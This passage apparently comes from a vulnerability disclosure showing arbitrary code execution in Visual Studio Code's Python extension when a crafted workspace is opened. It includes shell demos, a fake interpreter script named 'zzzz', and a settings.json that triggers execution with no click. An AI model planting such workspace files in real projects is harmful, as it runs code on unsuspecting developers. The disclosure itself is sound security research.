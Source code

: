 Note that upon opening a Python-type file within the Workspace, Visual Studio
Code attempts to use `zzzz` within the Workspace directory to execute the
Python code `print(1234)` to test the sanity of the assumed Python
interpreter (See
<https://github.com/microsoft/vscode-python/blob/e19dba8c2e465357c16929e5c61398d2525e70ca/src/client/common/configSettings.ts#L476-L483>)

Note also that Visual Studio Code attempts to use a set of binaries within
`zzzz/` such as `zzzz/python` and `zzzz/bin/python`. We'll come back to this
mechanism later when building a universal exploit.

For now, if we drop a shell script as `zzzz` then we can demonstrate
arbitrary code execution upon opening the Workspace and clicking on a
Python-type file.

Demo:

```
% cat > workspace/zzzz
#!/bin/sh
id > /tmp/win
^D

% chmod a+x workspace/zzzz

% cat /tmp/win
cat: /tmp/win: No such file or directory

% code workspace/

[Visual Studio Code opens]

[Click on "a_python_file.py" in the left-hand file browser to trigger the execution of Python]

% cat /tmp/win
uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)
```

## Overcoming the need for a victim to click on a Python-type file

We can overcome the need for user interaction (clicking on a Python-type file
within the Workspace) by setting the `files.associations` configuration value
such that all files are treated as Python-type files. This seems to include
the file that is shown as Visual Studio Code's "Welcome" screen, allowing the
exploit to trigger as soon as the malicious Workspace is opened.

Demo:

```
% mkdir -p workspace_with_file_association/.vscode

% cat > workspace_with_file_association/.vscode/settings.json
{
  "python.pythonPath": "${workspaceFolder}/zzzz",
  "files.associations": {"*": "python"}
}
^D

% strace -f -s9999 -e execve code workspace_with_file_association/ 2>&1 | grep zzzz
[pid 21746] execve("/tmp/tmp.tDil7a0yDS/workspace_with_file_association/zzzz", ["/tmp/tmp.tDil7a0yDS/workspace_with_file_association/zzzz", "-c", "print(1234)"], 0x82158a6e000 /* 41 vars */) = -1 ENOENT (No such file or directory)
[... SNIP ...]
```
